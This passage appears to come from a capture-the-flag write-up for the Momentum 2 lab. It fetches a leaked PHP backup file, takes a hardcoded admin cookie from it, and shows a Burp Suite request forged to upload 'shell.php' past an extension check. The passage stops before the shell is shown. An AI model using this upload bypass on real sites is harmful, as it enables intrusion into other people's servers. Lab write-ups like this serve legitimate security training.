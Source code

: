 ```bash
curl -s -X GET "http://192.168.1.10/ajax.php.bak" | cat -l php
```

The file is the following:

```php

     //The boss told me to add one more Upper Case letter at the end of the cookie
    if(isset($_COOKIE['admin']) && $_COOKIE['admin'] == '&G6u@B6uDXMq&Ms'){
 
       //[+] Add if $_POST['secure'] == 'val1d'
         $valid_ext = array("pdf","php","txt");
    }
    else{
 
         $valid_ext = array("txt");
    }

// Remember success upload returns 1
```
Here we have several clues, the first comment tells us that the last letter of the administrator cookie is missing and that it is capitalized.

The value must return ``'val1d'`` for the request to succeed.

### Burpsuite
So let's intercept the request when uploading a file with burpsuite:

![img](/assets/img/post/momentum2/proxy.png)

We send it to the ``Repeater``:
![img](/assets/img/post/momentum2/req.png)

In principle we have this, when we send this request it returns the following:
![img](/assets/img/post/momentum2/res.png)

To let us upload files in php format, we have to meet the if condition.

We have to edit the request, so that it meets the requirements in the php.bak file that we saw previously, it says that the cookie has to be equal to ``admin=&G6u@B6uDXMq&Ms[unknown capital letter]``.

And it has to return the value val1d.

I already edited the request, it looks like this:
```bash
POST /ajax.php HTTP/1.1
Host: 192.168.1.10
Content-Length: 190
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvvNiH8PdjxlcglI6
Accept: */*
Origin: http://192.168.1.10
Referer: http://192.168.1.10/dashboard.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es-US;q=0.8,es;q=0.7
Cookie: admin=&G6u@B6uDXMq&Ms
Connection: close

------WebKitFormBoundaryvvNiH8PdjxlcglI6
Content-Disposition: form-data; name="secure"

val1d           
------WebKitFormBoundaryvvNiH8PdjxlcglI6
Content-Disposition: form-data; name="file"; filename="shell.php"
```